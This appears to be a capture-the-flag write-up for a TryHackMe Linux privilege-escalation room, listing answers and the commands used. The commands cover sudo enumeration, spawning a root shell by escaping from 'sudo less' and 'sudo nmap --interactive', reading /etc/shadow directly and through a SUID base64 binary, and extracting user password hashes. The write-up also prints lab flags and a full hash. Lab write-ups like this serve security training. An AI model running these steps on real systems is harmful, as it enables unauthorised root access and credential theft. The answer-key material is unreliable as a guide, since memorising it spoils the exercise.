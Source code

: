 | Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| What is the content of the flag1.txt file ? | THM-28392872729920 |


## Privilege Escalation Sudo

> Machine IP : `10.10.49.30`


> finding sudo rights 
```
sudo -l
```
> finding flag2.txt
```
find / -type f -name flag2.txt 2>/dev/null
```
> privilege excalation using less
```
sudo less /etc/passwd
!/bin/bash -i
```

> getting frank's password hash (run as root)
```
cat /etc/shadow | grep frank | cut -d ":" -f 2
```


| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| How many programs can the user "karen" run on the target system with sudo rights ? | 3 |
| What is the content of the flag2.txt file ? | THM-402028394 |
| How would you use Nmap to spawn a root shell if your user had sudo rights on nmap ? | sudo nmap --interactive |
| What is the hash of frank's password ? | $6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLHHP9X50Iv.jNmwo/BJpphrPRJWjelWEz2HH.joV14aDEwW1c3CahzB1uaqeLR1 |



## Privilege Escalation : SUID 

> Machine IP : `10.10.102.137`

> finding all the files with SUID bit set
```
find / -type f -perm -04000 -ls 2>/dev/null
```

> using the base64 SUID set bit we can read /etc/shadow file
```
base64 /etc/shadow | base64 --decode

```

> extract user2's password hash from /etc/shadow
```
base64 /etc/shadow | base64 --decode | grep user2 |cut -d ":" -f 2
```
